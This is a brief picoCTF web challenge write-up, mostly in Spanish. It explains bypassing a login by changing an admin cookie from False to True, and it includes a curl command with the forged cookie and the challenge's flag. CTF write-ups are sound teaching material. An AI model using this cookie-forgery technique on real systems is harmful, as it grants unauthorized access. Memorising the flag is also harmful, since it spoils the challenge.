 ## Description
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594

## Solución

Acceder con cualquier usuario y cualquier contraseña

Inspeccionar el código fuente y acceder a las cookies, cambiar el valor de admin False a True, guardar y recargar la página.

picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}


```bash
alberto_vc-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: admin=True" | grep pico
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
alberto_vc-picoctf@webshell:~$ 
```

## Notas Adicionales
|comando|descripcion|
|---|---|
|xx|xx|

## Referencias
- []()
